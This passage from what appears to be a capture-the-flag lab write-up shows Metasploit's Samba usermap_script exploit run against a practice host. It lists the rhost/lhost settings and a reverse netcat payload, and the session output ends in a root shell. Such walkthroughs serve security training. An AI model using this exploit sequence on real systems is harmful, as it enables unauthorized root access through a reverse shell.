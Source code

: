 ```
Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/samba/usermap_script                                                                                            


```
{% endcode %}

Use the exploit in msfconsole and set rhost and lhost accordingly. Run the exploit. Check whoami to determine what account I am logged into.

{% code lineNumbers="true" %}
```
msf6 exploit(multi/samba/usermap_script) > set rhost 10.10.10.3
rhost => 10.10.10.3
msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.14.6
lhost => 10.10.14.6
msf6 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), see https://github.com/rapid7/metasploit
                                      -framework/wiki/Using-Metasploit
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.6       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf6 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP handler on 10.10.14.6:4444 
[*] Command shell session 1 opened (10.10.14.6:4444 -> 10.10.10.3:41991 ) at 2022-12-08 22:48:53 +0000

pwd
/
whoami
root

```
{% endcode %}
